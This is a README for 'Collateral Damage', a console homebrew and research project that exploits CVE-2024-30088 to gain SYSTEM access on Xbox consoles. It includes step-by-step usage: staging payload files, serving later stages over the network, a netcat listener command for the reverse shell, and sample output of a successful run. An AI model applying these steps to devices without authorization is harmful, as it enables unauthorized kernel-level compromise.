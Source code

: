 
# Collateral Damage
Collateral Damage is a kernel exploit for Xbox SystemOS using [CVE-2024-30088](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2024-30088).
It targets Xbox One and Xbox Series consoles running kernel versions 25398.4478, 25398.4908, and 25398.4909. The initial entrypoint is via the Game Script UWP application.

The first stage payloads, PE loader and network loader are provided by [Solstice](https://github.com/exploits-forsale/solstice).

This exploit was developed by [Emma Kirkpatrick](https://x.com/carrot_c4k3) (vulnerability discovery & exploitation) and [Lander Brandt](https://x.com/landaire) (Solstice)

## Kernel Module Dumper
This branch contains the code for the kernel module dumper release. It's pretty much the same as the master (prototyping) branch but with a simplified *post_exploit* function, and some removed code.

**FYI**, I have included a python script to fix unresolved near calls, as some modules directly call their import's function addresses rather than referencing the import address table. All script requires is [pefile](https://github.com/erocarrera/pefile), and [numpy](https://github.com/numpy/numpy) which you can install by running `pip install pefile` and `pip install numpy`, respectively.

### Where is _ntoskrnl.exe_?
The kernel for SystemOS employs some snazzy security on the image headers that I haven't quite fully reversed **yet**. Once I get a clean dump for the kernel, I'll push an update to this branch :)


## Important Caveats

To place the payload locally on the Xbox console a full-trust explorer like [Adv File Explorer (FullTrust)](https://apps.microsoft.com/detail/9nbnjpsxfsqb) is recommended. Alternatively, the initial payload can be served via a USB keyboard simulator (rubber ducky etc.) and further payload stages can then be loaded over the network.

The reverse shell example provided here requires that your console is connected to a network. When connecting your console to a network be very careful to avoid connecting to the internet and updating. Try to block connectivity to Xbox LIVE as 
much as possible, at the very least by setting your DNS to invalid servers.

This exploit is not fully reliable. It relies on a CPU side channel as well as a race condition, both of which have the potential to fail. In the event of a failure, the exploit may alert you that it has failed via network output, or the console itself may crash and reboot.

## Usage

- Modify line 7 of `gamescript_autosave_network.txt` or `gamescript_autosave.txt` to contain the local IP of your PC.
  - For use with Full-Trust File Explorer App: Copy `gamescript_autosave.txt`, `stage2.bin`, and `run.exe` to the `LocalState` directory of the Game Script application on your Console (`Q:\Users\UserMgr0\AppData\Local\Packages\27878ConstantineTarasenko.458004FD2C47C_c8b3w9r5va522\LocalState\`)
  - For HID / Keyboard simulator input: Type the contents of `gamescript_autosave_network.txt` into the GameScript window. Serve `stage2.bin` and `run.exe` via `payload_server_win_x64.exe --stage2 stage2.bin --run run.exe`
- Listen on port 7070 on your PC using netcat or a similar tool (command example: `nc64.exe -lvnp 7070`)
- Open the Game Script application on your console and select "Show Code Run window" and click "Run code once"
- If the exploit is success you should see output on your PC that resembles the following:
```
listening on [any] 7070 ...
connect to [192.168.0.61] from (UNKNOWN) [192.168.0.130] 49665
Collateral Damage - @carrot_c4k3 & @landaire (exploits.forsale)
Build number: 25398.4478
Attempting to find kernel base...
Found likely kernel base: FFFFF80AF9800000
Attempting exploit...
Exploit succeeded! Running payload!

Microsoft Windows [Version 10.0.25398.4478]
Copyright (c) Microsoft Corporation. All rights reserved.

S:\>
```

## Experimentation
Lots of additional work is needed to bring this to the point of being a user-friendly tool for loading homebrew onto the Xbox, but I hope that this provides a good starting point :) If you would like to play around with running code as SYSTEM you can put your code in the `post_exploit` function in `post_exploit.c`.

## Further Work
There is lots more to do on this, but as the kernel part is done I wanted to share it with the community so developers could start poking around with SYSTEM privileges. Here are a few things that I am still hoping to add in the future:
- Side loading support
- Unsigned non-UWP process launching
- SSH support

Additional ideas are welcome :)

## Thanks
thank you to everyone who helped me brainstorm and shared their knowledge and time with me throughout this!!! some of those who i would like to show appreciation to:

- chompie
- tuxuser
- baw
- [Xbox One Research](https://xboxoneresearch.github.io/)
- XBOX-SCENE Discord